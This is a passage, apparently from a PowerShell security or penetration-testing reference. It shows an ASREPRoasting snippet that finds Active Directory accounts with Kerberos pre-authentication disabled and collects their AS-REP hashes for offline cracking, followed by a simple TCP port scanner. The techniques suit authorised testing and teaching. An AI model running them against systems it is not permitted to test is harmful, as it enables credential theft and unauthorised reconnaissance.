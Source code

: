 #### ASREPRoasting Attack
```powershell
# Find users with pre-authentication disabled
$ASREPUsers = Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth

foreach ($User in $ASREPUsers) {
    Write-Host "ASREPRoastable user: $($User.SamAccountName)"
    
    # Request AS-REP without pre-authentication
    $ASREPHash = Get-ASREPHash -UserName $User.SamAccountName -Domain $Domain.DNSRoot
    Write-Host "AS-REP Hash: $ASREPHash"
}
```

---

## Network Security & Reconnaissance

### Network Scanning and Enumeration

#### Port Scanning
```powershell
function Invoke-PortScan {
    param(
        [Parameter(Mandatory=$true)]
        [string]$Target,
        
        [Parameter(Mandatory=$false)]
        [int[]]$Ports = @(21,22,23,25,53,80,110,111,135,139,143,443,993,995,1723,3306,3389,5432,5900,6000,6001,6002,6003,6004,6005,6006,6007,6008,6009),
        
        [Parameter(Mandatory=$false)]
        [int]$Timeout = 1000
    )
    
    $OpenPorts = @()
    
    foreach ($Port in $Ports) {
        $TcpClient = New-Object System.Net.Sockets.TcpClient
        $Connect = $TcpClient.BeginConnect($Target, $Port, $null, $null)
        $Wait = $Connect.AsyncWaitHandle.WaitOne($Timeout, $false)
        
        if ($Wait) {
            try {
                $TcpClient.EndConnect($Connect)
                $OpenPorts += $Port
                Write-Host "Port $Port is open on $Target" -ForegroundColor Green
            } catch {
                Write-Host "Port $Port is closed on $Target" -ForegroundColor Red
            }
        }
        
        $TcpClient.Close()
    }
    
    return $OpenPorts
}

# Usage
$Target = "192.168.1.1"
$OpenPorts = Invoke-PortScan -Target $Target
Write-Host "Open ports on $Target`: $($OpenPorts -join ', ')"
```